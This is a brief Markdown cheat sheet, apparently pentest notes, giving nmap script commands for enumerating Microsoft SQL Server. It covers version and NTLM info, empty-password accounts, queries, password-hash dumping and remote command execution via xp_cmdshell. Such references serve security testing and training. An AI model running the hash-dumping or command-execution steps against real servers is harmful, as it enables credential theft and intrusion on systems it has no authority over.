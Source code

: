 # MSSQL Enumeration using NMAP
#### VERSION DETECTION:
Attempts to determine configuration & version information for Microsoft SQL.
```
nmap -p 1433 --script ms-sql-info <TARGET>
```

This script enumerates information from remote Microsoft SQL services disclosing information to include NetBIOS, DNS, and OS build version.
```
nmap -p 1433 <TARGET> --script ms-sql-ntlm-info --script-args mssql.instance-port=1433
```

#### FINDING USER ACCOUNTS WITH EMPTY PASSWORDS
identifies all accounts on the target which doesn't require a password to Login
```
nmap -p 1433 --script ms-sql-empty-password <TARGET>
```

#### RUNNING A QUERY:
Runs a query against Microsoft SQL Server
```
nmap -p 1433 <TARGET> --script ms-sql-query --script-args mssql.username=<USERNAME>,mssql.password=<PASSWORD>,ms-sql-query.query="SELECT * FROM master..syslogins" 
```

#### DUMPING USER HASHES:
Dumps the password hashes from an MS-SQL server
```
nmap -p 1433 <TARGET> --script ms-sql-dump-hashes --script-args mssql.username=<USERNAME>,mssql.password=<PASSWORD>
```

#### REMOTE COMMAND EXECUTION:
Attempts to run a command using the command shell of Microsoft SQL Server
```
nmap -p 1433 <TARGET> --script ms-sql-xp-cmdshell --script-args mssql.username=<USERNAME>,mssql.password=<PASSWORD>,ms-sql-xp-cmdshell.cmd="ipconfig" 
```

